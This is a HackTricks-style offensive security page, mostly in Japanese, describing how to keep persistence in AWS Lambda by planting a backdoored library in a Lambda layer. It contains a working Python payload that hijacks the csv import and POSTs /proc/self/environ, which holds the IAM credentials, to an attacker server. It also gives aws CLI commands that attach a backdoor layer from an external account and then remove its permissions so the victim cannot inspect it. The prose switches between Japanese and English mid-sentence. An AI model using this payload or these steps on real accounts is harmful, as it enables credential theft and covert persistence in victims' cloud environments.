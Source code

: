 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Lambdaレイヤーは、**追加のコード**やその他のコンテンツを含むことができる.zipファイルアーカイブです。レイヤーにはライブラリ、[カスタムランタイム](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、データ、または設定ファイルを含めることができます。

**関数ごとに最大五つのレイヤーを含めることができます**。関数にレイヤーを含めると、**内容は実行環境の`/opt`**ディレクトリに抽出されます。

**デフォルトでは、作成した**レイヤーはあなたのAWSアカウントに**プライベート**です。レイヤーを他のアカウントと**共有**するか、レイヤーを**公開**することを選択できます。あなたの関数が異なるアカウントが公開したレイヤーを使用する場合、レイヤーが削除された後やレイヤーへのアクセス権が取り消された後でも、関数は**レイヤーのバージョンを引き続き使用できます**。ただし、削除されたレイヤーバージョンを使用して新しい関数を作成したり、関数を更新したりすることはできません。

コンテナイメージとしてデプロイされた関数はレイヤーを使用しません。代わりに、イメージをビルドする際に、好みのランタイム、ライブラリ、およびその他の依存関係をコンテナイメージにパッケージします。

### Python load path

LambdaでPythonが使用するロードパスは次のとおりです:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
チェックしてみてください、**第二**および第三の**位置**は、**lambda layers**がファイルを解凍するディレクトリで占められています：**`/opt/python/lib/python3.9/site-packages`**および**`/opt/python`**

{% hint style="danger" %}
もし攻撃者が使用されているlambda **layer**に**バックドア**を仕掛けたり、**一般的なライブラリが読み込まれたときに任意のコードを実行する**ものを**追加**した場合、彼は各lambdaの呼び出しで悪意のあるコードを実行できるようになります。
{% endhint %}

したがって、要件は次のとおりです：

* **被害者のコード**によって**読み込まれるライブラリ**を**確認**する
* **カスタムコードを実行し、元の**ライブラリを**読み込む**ための**lambda layers**を持つ**プロキシライブラリを作成する。

### プリロードされたライブラリ

{% hint style="warning" %}
この技術を悪用する際に、私は困難に直面しました：いくつかのライブラリは、あなたのコードが実行されるときにpythonランタイムに**すでに読み込まれています**。私は`os`や`sys`のようなものを見つけることを期待していましたが、**`json`ライブラリさえも読み込まれていました**。\
この永続性技術を悪用するためには、コードが実行されるときに**読み込まれていない新しいライブラリを読み込む**必要があります。
{% endhint %}

このようなpythonコードを使用すると、lambda内のpythonランタイムに**プリロードされたライブラリのリスト**を取得することができます：
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
そして、これは**リスト**です（`os`や`json`のようなライブラリがすでに存在することを確認してください）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
そして、これは**lambdaがデフォルトでインストールしているライブラリ**のリストです: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambdaレイヤーのバックドア

この例では、ターゲットコードが**`csv`**をインポートしていると仮定します。私たちは**`csv`ライブラリのインポートにバックドアを仕掛ける**つもりです。

そのために、**`/opt/python/lib/python3.9/site-packages`**に**csv**というディレクトリを作成し、その中に**`__init__.py`**ファイルを置きます。\
その後、lambdaが実行されて**csv**を読み込もうとすると、私たちの**`__init__.py`ファイルが読み込まれ、実行されます**。\
このファイルは以下を行う必要があります:

* 私たちのペイロードを実行する
* 元のcsvライブラリを読み込む

私たちは両方を次のように行うことができます:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Then, create a zip with this code in the path **`python/lib/python3.9/site-packages/__init__.py`** and add it as a lambda layer.

You can find this code in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

The integrated payload will **最初に呼び出されたとき、またはlambdaコンテナのリセット後にIAMクレデンシャルをサーバーに送信します**（コードの変更またはコールドラムダ）、しかし**他の技術**も以下のように統合することができます：

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### External Layers

Note that it's possible to use **外部アカウントからのlambdaレイヤー**。さらに、lambdaは**権限がなくても外部アカウントのレイヤーを使用できます**。\
Also note that the **lambdaが持てるレイヤーの最大数は5です**。

Therefore, in order to improve the versatility of this technique an attacker could:

* ユーザーの既存のレイヤーにバックドアを仕掛ける（外部は何もない）
* **自分のアカウントに** **レイヤー**を**作成**し、**被害者アカウントにレイヤーを使用するアクセスを与え**、**被害者のLambdaにレイヤーを** **設定**し、**権限を削除**する。
* **Lambda**は**レイヤーを使用し続け**、**被害者は** **レイヤーのコードをダウンロードする簡単な方法がありません**（ラムダ内でリバースシェルを取得することを除いて）
* 被害者は**`aws lambda list-layers`**を使用して**外部レイヤーを確認できません**。

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
